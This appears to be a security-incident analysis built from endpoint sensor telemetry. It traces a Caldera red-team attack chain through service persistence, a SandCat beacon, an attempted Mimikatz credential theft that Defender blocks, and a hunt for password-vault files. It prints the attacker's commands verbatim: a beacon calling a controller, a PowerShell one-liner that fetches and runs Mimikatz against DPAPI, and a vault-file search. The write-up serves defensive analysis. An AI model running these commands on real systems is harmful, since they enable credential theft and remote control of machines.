

---

## Attack chain




---

## Stage by stage

### 01 · A rogue service is installed for persistence
**14–15 Jul, 16:45 — Medium**

`services.exe` (the Windows Service Control Manager) starts `nssm.exe` — the "Non-Sucking Service Manager," a legitimate open-source tool that wraps any executable so it can run as a Windows service. It's used here to register a new service called **CalderaAgent**. Wrapping the payload as a service means it runs as SYSTEM and restarts automatically — this is the persistence step, not the payload itself.

### 02 · The service launches a beacon that calls home
**15 Jul, 16:45 — Low**

The new service starts `wusvc.exe` — named to look like a Windows Update service, actually sitting in `C:\Users\Public` (a world-writable folder, a classic red flag). Defender identifies it as **Trojan:Win64/SandCat.RTS!MTB** — SandCat is the default agent used by MITRE Caldera, an open-source adversary-emulation framework. Its command line confirms it: it checks in to a controller at `172.31.2.203:8888` under `group=red` (a red-team operation label). This alert is only "Detected," not blocked, so the beacon kept running and receiving tasking.

```
wusvc.exe -server http://172.31.2.203:8888 -group red
```

### 03 · The beacon is tasked to steal credentials
**15 Jul, 17:40:17 — High × 3**

The beacon spawns `powershell.exe` with `-ExecutionPolicy Bypass`, which skips PowerShell's script-restriction policy. The command line itself is the whole attack in one line: make a staging folder, download a tool, unzip it, and run it against Windows' DPAPI (Data Protection API) — the subsystem behind saved browser passwords, Wi-Fi keys, and cached logon secrets. Defender scored this process launch against three separate detections simultaneously, before the download even finished: a PowerShell-abuse alert, a DPAPI-abuse alert, and a named credential-theft-tool alert.

```powershell
powershell.exe -ExecutionPolicy Bypass -C "md $env:TEMP\svcdiag3 -f; (New-Object Net.WebClient).DownloadFile(
  'https://github.com/gentilkiwi/mimikatz/releases/.../mimikatz_trunk.zip', $env:TEMP\svcdiag3\kb97416.zip);
  Expand-Archive $env:TEMP\svcdiag3\kb97416.zip $env:TEMP\svcdiag3 -f;
  & $env:TEMP\svcdiag3\x64\mimikatz.exe privilege::debug dpapi::cred /unprotect dpapi::cache exit"
```

### 04 · Mimikatz is fetched and disguised as a Windows update
**15 Jul, 17:40:17–20 — Staging**

PowerShell pulls the real Mimikatz release directly from its public GitHub repo and saves it as `kb97416.zip` — a name meant to blend in with a Windows KB patch — inside a folder named `svcdiag3` ("service diagnostics"), another attempt to look routine. It then unzips the archive with PowerShell's built-in `Expand-Archive` cmdlet. (The wall of PowerShell module source visible in the raw log around this timestamp is just script-block logging capturing Microsoft's own `Expand-Archive` code as it ran — noise, not attacker-written code.)

### 05 · Defender quarantines the file before it can run
**15 Jul, 17:40:25 — Blocked · High**

The moment `kb97416.zip` is written to disk, Defender flags it as **HackTool:Win32/Mimikatz** and quarantines it. This is the one alert in the chain marked **Blocked** rather than only Detected — `mimikatz.exe` never gets created, so the `dpapi::cred /unprotect dpapi::cache` command at the end of the PowerShell one-liner has nothing to execute. This is the point where the credential-theft attempt actually failed.

### 06 · A fallback: hunting for password-manager vaults
**15 Jul, 17:41:16 — No alert tag**

About a minute after Mimikatz was blocked, `cmd.exe` runs a directory search across the user's profile for `*.kdbx` (KeePass), `*.kdf`, and `*.psafe3` (Password Safe) files — the database files password managers use to store vaults. Nothing in the log tags this with a detection, but coming right after a blocked credential-theft tool, it reads as the operator pivoting to a second way to get credentials: locate a vault file and try to exfiltrate or crack it offline instead.

```
cmd.exe /C dir /s /b "%USERPROFILE%\*.kdbx" "%USERPROFILE%\*.kdf" "%USERPROFILE%\*.psafe3" 2>nul
```

---

## Alerts at a glance

| Time     | Alert                                     | Severity | Status      |     |
| -------- | ----------------------------------------- | -------- | ----------- | --- |
| 16:45    | Suspicious service launched               | Medium   | Detected    |     |
| 16:45    | Active malware (SandCat trojan)           | Low      | Detected    |     |
| 17:40:17 | Suspicious PowerShell command             | Medium   | Detected    |     |
| 17:40:17 | Suspicious DPAPI activity                 | High     | Detected    |     |
| 17:40:17 | Malicious credential-theft tool execution | High     | Detected    |     |
| 17:40:25 | Mimikatz credential-theft tool            | High     | **Blocked** |     |

---

*Built from endpoint sensor telemetry, 15 Jul 2026 16:45–17:41. Timestamps as logged by the source sensor.*
